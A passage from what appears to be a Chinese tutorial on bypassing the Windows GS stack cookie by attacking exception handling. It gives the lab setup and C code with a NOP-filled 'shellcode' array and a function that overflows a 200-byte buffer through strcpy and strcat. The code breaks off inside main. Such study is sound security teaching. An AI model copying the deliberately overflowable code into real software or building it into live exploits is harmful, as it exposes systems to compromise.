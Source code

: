 ![](/assets/img/exploit/2017-10-01-windows-binary-system-0day/0x008-009.png)


## 0x009 攻击异常处理突破GS

>[分析环境]  
>系统: Windows 2000 Professional sp4  
>编译器: Visual Studio 2005  
>调试器: OllyDbg 1.10  
>说明: Windows XP sp2以后采用SafeS.E.H, 避免干扰这里用Windows 2000。

新建一个工程, 贴入以下代码
```
#include <string.h>

char shellcode[]=
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90";

void test(char *input)
{
	char buf[200];
	strcpy(buf,input);
	__asm int 3
	strcat(buf,input);
}

int main()
{
	test(shellcode);

```